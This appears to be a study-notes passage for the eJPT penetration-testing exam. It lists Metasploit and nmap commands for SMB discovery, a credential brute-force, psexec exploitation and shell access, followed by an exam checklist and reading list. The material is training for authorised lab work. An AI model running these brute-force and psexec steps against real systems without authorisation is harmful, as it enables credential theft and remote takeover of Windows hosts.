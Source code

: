 
## 🎓 Quick Reference and Study Notes

### **🧠 Memory Card for eJPT:**
```bash
# Essential commands to memorize
nmap -p445 --script smb-protocols target     # SMB discovery
use auxiliary/scanner/smb/smb_login           # Credential attack
use exploit/windows/smb/psexec               # System exploitation
set RHOSTS target                            # Set target
set SMBUser username                         # Set username
set SMBPass password                         # Set password
exploit                                      # Execute
shell                                        # System access
```

### **💡 Easy Ways to Remember:**
- **SMB** = **S**ystem **M**essage **B**lock (Windows file sharing)
- **PSExec** = **P**rocess **S**ervice **Exec**ution (remote commands)
- **445** = SMB over TCP port (remember as "for-four-five")
- **139** = NetBIOS Session Service (legacy SMB)

### **🎯 eJPT Exam Checklist:**
- [ ] Scan for port 445 and identify SMB service
- [ ] Enumerate SMB protocols and versions
- [ ] Launch credential brute-force attack
- [ ] Verify discovered credentials
- [ ] Exploit system using psexec
- [ ] Establish meterpreter session
- [ ] Drop to system shell
- [ ] Navigate file system and capture flag
- [ ] Document all findings for report

---

## 🔗 Learning More

### **📖 Official Resources:**
- **Metasploit Documentation:** https://docs.metasploit.com/
- **Nmap Scripting Engine:** https://nmap.org/book/nse.html
- **SMB Protocol Documentation:** https://docs.microsoft.com/en-us/openspecs/
- **PSExec Tool Documentation:** https://docs.microsoft.com/en-us/sysinternals/

### **🎥 Video Learning:**
- Search for "SMB exploitation with Metasploit"
- "eJPT preparation - Windows exploitation"
- "Metasploit psexec tutorial"
- "SMB enumeration and attack demonstrations"

### **📚 Books to Read:**
- "Metasploit: The Penetration Tester's Guide" - SMB exploitation chapter
- "The Hacker Playbook 3" - Windows attack methodologies
- "Penetration Testing with Kali Linux" - Service exploitation techniques
- OWASP Testing Guide - Network service security testing
